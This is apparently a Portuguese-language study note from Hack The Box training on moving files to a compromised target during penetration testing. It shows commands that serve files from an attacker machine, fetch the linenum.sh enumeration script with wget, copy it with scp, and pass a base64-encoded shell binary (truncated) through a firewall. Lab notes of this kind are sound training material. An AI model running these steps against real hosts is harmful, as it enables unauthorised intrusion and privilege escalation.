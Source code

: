 # Transferindo-Arquivos

MAQUINA HOST
-
Gust4vo@htb[/htb]$ cd /tmp </br>
Gust4vo@htb[/htb]$ python3 -m http.server 8000

 MAQUINA ALVO USANDO WGET COM
 -
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh </br>
...SNIP... </br>
Saving to: 'linenum.sh' </br>
linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s </br>
2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337] </br>

MAQUINA ALVO USANDO SCP
 -
 Gust4vo@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh </br>
 user@remotehost's password: ********* </br>
 linenum.sh </br>

 ---

 Em alguns casos, talvez não consigamos transferir o arquivo. Por exemplo, o host remoto pode ter proteções de firewall que nos impedem de baixar um arquivo de nossa máquina. Neste tipo de situação, podemos usar um truque simples para base64 codificar o ficheiro </br>

 MAQUINA HOST
-
Gust4vo@htb[/htb]$ base64 shell -w 0 </br>
f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU </br>

MAQUINA ALVO USANDO BASE64
 -
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell

